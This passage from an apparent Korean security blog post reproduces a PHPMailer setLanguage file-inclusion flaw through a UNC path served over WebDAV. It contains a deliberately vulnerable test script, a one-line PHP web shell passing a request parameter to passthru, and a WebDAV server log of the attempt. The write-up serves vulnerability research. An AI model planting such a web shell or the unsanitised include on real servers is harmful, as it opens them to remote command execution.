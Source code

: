 서버의 소스는 위와 같습니다.

![/assets/2021-08-01/Untitled%2019.png](/assets/2021-08-01/Untitled%2019.png)

UNC Path를 사용하여 include로 접근할 때 `\\[IP]@[PORT]\[Path]` 의 형태로 접근하며, 앞서 설명한 바와 같이 지정해준 서버에 `SMB` 프로토콜이 동작하지 않으므로 `WebDav`로 접근할 수 있습니다.

또한, `@` 를 사용하여 위와 같이 포트를 지정해줄 수 있습니다.

### 취약점 동작 확인

---

```php
<?php
    require_once "vendor/autoload.php";

    use PHPMailer\PHPMailer\PHPMailer;

    $mail = new PHPMailer(true);
    $mail->setLanguage($_GET["langcode"], $_GET["lang_path"]);
?>
```

서버의 테스트 소스 코드입니다. 앞서 설명한 취약점 파트의 소스코드와 동일합니다.

```php
<?php
	// phpmailer.lang-ko.php
	header("Content-Type: text/html; charset=euc-kr");
	echo passthru($_GET["x"]);
?>
```

test 파일의 내용을 웹쉘로 대체하고, 파일명을 수정하여 업로드 합니다.

```bash
(webdav) ➜  webdav davserver -D ./ -n -H 0.0.0.0
2021-07-22 07:10:12,055 WARNING Authentication disabled!
Listening on 0.0.0.0 (8008)
220.70.4.161 - - [22/Jul/2021 07:10:17] "PROPFIND /PHPMAILER.LANG-KO.PHP HTTP/1.1" 404 -
```

그리고 취약점을 트리거하는 과정에서 위와 같이 요청하는 첫번째 인자(Path) 부분을 대문자로 요청하여 정상적으로 접근할 수 없는 현상을 확인하였습니다.

![/assets/2021-08-01/Untitled%2020.png](/assets/2021-08-01/Untitled%2020.png)
